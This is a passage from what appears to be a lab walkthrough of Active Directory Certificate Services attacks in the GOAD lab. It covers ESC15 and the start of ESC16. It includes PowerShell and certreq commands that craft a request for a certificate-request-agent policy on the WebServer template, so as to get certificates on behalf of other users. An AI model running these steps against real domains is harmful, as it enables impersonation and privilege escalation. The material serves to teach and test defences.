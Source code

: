 ```bash
$craInfContent = @"
[NewRequest]
Subject = "CN=missandei,CN=Users,DC=essos,DC=local"
KeyLength = 2048
KeyAlgorithm = RSA
MachineKeySet = FALSE
RequestType = PKCS10
CertificateTemplate = WebServer

[Extensions]
1.3.6.1.4.1.311.21.10 = "{text}1.3.6.1.4.1.311.20.2.1"
"@

$craInfContent | Out-File -FilePath "esc15-cra.inf"
```

`certreq -new -f esc15-cra.inf esc15-cra.req`
`certreq -submit -config "braavos.essos.local\ESSOS-CA" esc15-cra.req`

Now we can request certificates on behalf of other users!

### Vulnerable Default Templates

All version 1 templates are potentially vulnerable when enrollment rights are granted in GOAD:
- **WebServer** (most commonly exploited) ✓ Found in GOAD
- ExchangeUser
- CEPEncryption
- OfflineRouter
- IPSECIntermediateOffline
- SubCA
- CA
- EnrollmentAgentOffline

### Remediation

**Microsoft has patched this vulnerability as of November 12, 2024 (CVE-2024-49019).** Additional protective measures include:


## ESC16: CA-Wide Security Extension Removal

**Status: ACTIVE THREAT**

ESC16 represents a critical misconfiguration where the Certificate Authority is configured to omit the `szOID_NTDS_CA_SECURITY_EXT` extension (OID: `1.3.6.1.4.1.311.25.2`) on every certificate it issues.

### Technical Details

ESC16 arises when the CA is configured to **omit** the `szOID_NTDS_CA_SECURITY_EXT` extension on every certificate it issues. Without this extension, a certificate no longer includes the account's SID, breaking the strong certificate-to-account binding enforced by Windows Server 2022 and later (KB5014754).
